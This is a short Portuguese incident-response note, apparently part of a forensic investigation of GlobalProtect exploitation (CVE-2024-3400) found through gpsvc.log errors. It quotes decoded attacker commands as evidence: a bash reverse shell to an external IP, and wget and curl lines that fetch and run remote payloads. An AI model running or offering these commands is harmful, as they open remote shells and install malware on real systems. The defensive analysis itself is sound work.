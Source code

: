 # Phase 02 — gpsvc.log & primeiros indícios

**Objetivo:** confirmar `gpsvc.log` e localizar erros/sinais de exploração.

**Consultas executadas (DevTools):**
- gpsvc presence (sample)
- gpsvc count
- unmarshal session errors (key IOC)

**Achados:**
- `gpsvc.log` presente com 2.014 eventos (2024-04-26).
- 101 ocorrências de `failed to unmarshal session(...)`, incluindo:
  - Path traversal para `sslvpndocs` e `device_telemetry` (minute/hour).
  - Execução de comandos via backticks + `echo <base64> | bash`.
- Decodificações (amostras):
  - `bash -i >& /dev/tcp/54.162.164.22/1337 0>&1`
  - `wget -qO /var/tmp/BYhkpzVZP http://185.196.9.31:8080/...; chmod +x ...; /var/tmp/BYhkpzVZP &`
  - `curl -s -L http://138.197.162.79:65534/0dzFrRzQ.sh|bash -s`

**Interpretação:**
- Padrões compatíveis com exploração do GlobalProtect (CVE-2024-3400) e pós-execução (download de payload e reverse shell).
- IPs/URLs acima já candidatos a IoCs.

**Próximos passos (Phase 03):**
- Artefatos `/tmp/sslvpn/session_*` e endpoint `hipreport.esp`.
- Marcadores pós-execução (`device_telemetry`, `wget/curl`, `worldtimeapi.org`).
- `first_seen`/`last_seen` e **top source IPs** para consolidar timeline e IoCs.
